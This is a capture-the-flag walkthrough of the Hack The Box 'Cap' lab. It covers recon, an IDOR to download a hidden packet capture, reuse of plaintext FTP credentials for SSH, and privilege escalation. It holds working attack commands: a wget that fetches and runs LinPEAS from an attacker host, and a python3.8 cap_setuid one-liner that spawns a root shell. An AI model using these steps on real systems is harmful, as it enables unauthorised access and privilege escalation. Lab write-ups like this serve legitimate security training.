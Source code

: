 # HTB: Cap

## 📌 Box Info
- **Name:** Cap
- **IP:** 10.10.10.245
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -T4 -A -p- 10.10.10.245
```

### Ports Found
- **21/tcp** → [FTP](FTP) (vsftpd 3.0.3)
- **22/tcp** → [SSH](SSH) (OpenSSH 8.2p1)
- **80/tcp** → [HTTP](HTTP) (gunicorn)

---

## 🔧 Web Enumeration
- Visit `http://10.10.10.245` → Security Dashboard interface
- `Security Snapshot` → Download PCAP files via `/download` endpoint
- Change `id=1` to `id=0` to reveal an additional hidden PCAP

### Download and Analyze PCAP
```bash
# Download hidden capture
curl "http://10.10.10.245/download?id=0" -o hidden.pcap

# Open in Wireshark and search for "password"
```

### Extracted Credentials from FTP
- **Username:** nathan
- **Password:** Buck3tH4TF0RM3!

---

## 🔐 Access via SSH
```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

---

## 🪧 Privilege Escalation
### Use LinPEAS
```bash
# Transfer and run LinPEAS
wget http://10.10.14.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Finding
- `/usr/bin/python3.8` has **cap_setuid** capability

### GTFOBins Exploit
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

---

## ✅ Root Access
```bash
whoami
id
cat /root/root.txt
```

---

## 📂 Summary
- Cleartext FTP credentials found in PCAP
- Used for SSH access
- `cap_setuid` capability abused on Python for root shell

---

## 📃 Resources
- [GTFOBins - python](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [CVE-Exploit Reference](https://www.hackthebox.com)